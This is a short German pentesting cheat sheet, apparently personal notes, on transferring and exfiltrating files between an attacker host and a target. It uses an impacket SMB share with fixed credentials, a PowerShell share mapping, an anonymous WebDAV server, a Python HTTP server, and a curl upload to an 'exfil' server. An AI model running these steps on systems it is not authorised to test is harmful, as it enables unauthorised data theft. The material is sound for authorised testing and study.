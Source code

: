  
 #exfil 
 #transfer
#justanothertag 
#ffuf/myass
#myass/ffuf
 
---
## Windows

### SMB Share

**Angreifer**
Einen share auf port 445 erstellen. **Zugangsdaten werden ab Smbv2 benötigt!** 

```bash
sudo impacket-smbserver -username pwn -password pwn -debug -smb2support -ip LHOST SHARENAME /local/path/share
```

**Zielsystem**
Ein neues Smbmapping unter `P:` erstellen:

```powershell
New-SmbMapping -LocalPath 'P:' -RemotePath \\RHOST\SHARENAME -username pwn -password pwn
```

Dateien können per `cp path/soruce path/dest` kopiert werden. Mit Zugriff per RDP kann der Share auch über den File Explorer benutzt werden.

### WebDAV

**Angreifer**
Einen WebDAV Server mit anonymous login im momentanen Ordner auf allen Interfaces und Port 80 starten.

```bash
~/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root $(pwd)
```

---

## Universal

### Python simple http.server

Dateien können auf dem System gehostet werden wenn Phyton installiert ist

```bash
# Den momentanen Ordner bereitstellen
python3 -m http.server
# Spezifischen Pfad bereitstellen
python3 -m http.server -d /path/dir
```

### Python upload server

Falls ein bereitstellen der Daten per http nicht funktioniert können diese auch an einen Server hochgeladen werden.

**Angreifer**
Python server starten

```bash
python -m uploadserver -d /path/exfil
```

**Zielsystem**
Dateien per curl an den upload Server posten

```bash
curl -X POST http://127.0.0.1:8000/upload -F 'files=@multiple-example-1.txt' -F 'files=@multiple-example-2.txt'
```

## Todo

- [ ] Datentransfer
- [x] SMB Share ✅ 2024-08-10
- [?] WebDAV
	- [?] WebDAV: Zielsystem fehlt
- [x] Python simple http.server ✅ 2024-07-26
- [?] Python uploadserver
	- [?] Python uploadserver: Powershell Beispiel